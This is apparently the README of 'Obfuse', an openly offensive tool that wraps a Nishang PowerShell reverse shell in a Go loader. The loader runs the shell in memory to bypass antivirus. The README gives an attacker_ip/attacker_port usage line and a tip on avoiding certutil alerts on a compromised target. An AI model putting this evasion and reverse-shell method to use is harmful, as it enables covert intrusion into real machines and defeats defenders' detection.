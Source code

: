 ## What is Obfuse?
Obfuse is just a simple bash script that combines different methods into one executable, compiled with golang. It uses **Invoke-PowerShellTcp.ps1** from [Nishang](https://github.com/samratashok/nishang) for reverse connection which will be served with python http module, then it uses a compiled go binary which will download the script and execute it in memory. The purpose of Obfuse is to bypass AV.

## Requirements
- Metasploit Framework (msfconsole)
	- Available on the official repo **https://github.com/rapid7/metasploit-framework**
- Golang (GO)
	- You can install it by executing **apt-get install golang**
- Python (http server)
	- You can install it by executing **apt-get install python2 or python3**

## Usage
> $ ./obfuse.sh attacker_ip attacker_port

## Tips
Use the powershell method to download files if you already have access on the target machine because certutil might already be blocked and it might trigger an alert.

## ToDo
Choose between msfconsole or empire-cli
Choose different payload delivery methods not only powershell

## Feedback and issues?
If you have any feedback, anything that you want to see implemented or if you're running into issues using Obfuse, please feel free to file an issue on [https://github.com/spenkk/obfuse/issues](https://github.com/spenkk/issues)